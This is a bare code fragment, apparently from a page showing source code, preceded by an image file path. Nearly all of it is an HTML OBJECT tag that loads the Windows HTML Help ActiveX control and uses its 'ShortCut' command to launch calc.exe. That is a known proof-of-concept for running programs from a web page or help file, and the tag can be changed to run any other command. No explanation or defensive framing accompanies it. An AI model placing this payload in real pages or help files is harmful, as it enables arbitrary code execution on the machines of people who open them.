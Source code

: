 <OBJECT id=submit classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1height=1>
<PARAM name="Command"value="ShortCut">
<PARAM name="Button"value="Bitmap::shortcut">
<PARAM name="Item1"value=',calc.exe'>
<PARAM name="Item2"value="273,1,1">
</OBJECT>
